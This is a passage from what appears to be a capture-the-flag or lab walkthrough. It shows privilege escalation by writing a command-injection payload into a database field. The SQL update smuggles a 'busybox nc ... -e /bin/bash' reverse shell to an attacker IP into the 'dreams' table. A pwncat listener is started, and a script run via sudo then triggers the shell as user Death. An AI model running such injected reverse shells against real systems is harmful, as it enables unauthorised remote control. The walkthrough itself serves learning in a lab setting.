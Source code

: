 ![mysql injection](./pic/mysql_inj.png)
	
we updated the table dreams on the library database in this way:
```sql
update dreams set dream='; busybox nc 10.8.79.118 5555 -e /bin/bash;' where dreamer='Alice';
```
Now we can start the listener on our local machine:
```bash
pwncat-cs -lp 5555
```
Finally we can run the python script to get the reverseshell:
```bash
sudo -u death /usr/bin/python3 /home/death/getDreams.py
```
We got our shell as Death user!:
	